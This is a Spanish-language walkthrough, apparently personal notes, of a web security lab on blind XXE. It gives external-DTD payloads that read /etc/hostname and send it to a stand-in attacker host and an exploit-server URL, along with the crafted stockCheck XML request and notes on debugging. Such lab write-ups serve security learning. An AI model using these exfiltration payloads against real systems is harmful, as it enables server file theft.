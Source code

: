 ![[Pasted image 20230611064705.png]]

Write up de Garrr7: https://youtu.be/wqwUqHA_AJE

Payloads:
External DTD File for Reference:
"<!ENTITY % file SYSTEM "file:///etc/hostname">"
"<!ENTITY % stack SYSTEM "<!ENTITY &#x25; exfil 'http://attacker-server.com/%file;'>" "

![[Pasted image 20230611072330.png]]

consulto el stock de cualquier producto:

![[Pasted image 20230611072610.png]]

![[Pasted image 20230611072635.png]]

Post ProductStock lo mando al Repeater:

![[Pasted image 20230611072723.png]]

en esta parte haremos los primeros cambios:

![[Pasted image 20230611072815.png]]

![[Pasted image 20230611073011.png]]

Aca tengo que cargar el exploit server, copiar la URL y pegarla en el payload:

![[Pasted image 20230611073057.png]]

![[Pasted image 20230611073405.png]]

aca aun no le doy enviar, me paso al exploit server y establezco los payloads:

"
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % stack SYSTEM "<!ENTITY exfil SYSTEM 'https://exploit-0a2800d60390326b80a9cf4f01b3001b.exploit-server.net/?%file;'>" 

"

![[Pasted image 20230611073937.png]]

en la foto de arriba me falto cerrar el primer ENTITY, aca el cambio:

![[Pasted image 20230614192608.png]]

ahora con esos cambios modifico mi request:

"
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE test [<!ENTITY % loadDtd SYSTEM "https://exploit-0a2800d60390326b80a9cf4f01b3001b.exploit-server.net/exploit">%loadDtd;%stack;]><stockCheck><productId>
&exfil;
</productId><storeId>1</storeId></stockCheck>

"

ojo, aun no hay que presionar Store

![[Pasted image 20230611073822.png]]

probando enviar el request:

![[Pasted image 20230611074135.png]]

entonces esto es relacionado a character references, hacienod las modificaciones en los paylods:

"
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % stack SYSTEM "<!ENTITY &#x25; exfil SYSTEM 'https://exploit-0a2800d60390326b80a9cf4f01b3001b.exploit-server.net/?%file;'>" 

"

presiono store 

en el repeater:


"
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE test [<!ENTITY % loadDtd SYSTEM "https://exploit-0a2800d60390326b80a9cf4f01b3001b.exploit-server.net/exploit">%loadDtd;%stack;%exfil;]><stockCheck><productId>
1
</productId><storeId>1</storeId></stockCheck>

"

![[Pasted image 20230614192907.png]]


envio el request y obtengo:

![[Pasted image 20230611074509.png]]

me vuelvo al exploit server y hoy verifico el access log, pero no obtuve el resultado.

Siguiendo el tutorial de Sommers si pude resolver el lab, aca pongo los payloads:

en el exploit server:

![[Pasted image 20230614194423.png]]

notese que aca el url que estoy usando es del burp collaborator.

En el repeater:

![[Pasted image 20230614194503.png]]

le doy enviar y debe aparecerme esto:

![[Pasted image 20230614194526.png]]

en este momento me paso al collaborator y le doy Poll Now, en el request HTTP veo el valor de la segunda pestana

![[Pasted image 20230614194626.png]]

y justo ese valor es el token:

![[Pasted image 20230614194705.png]]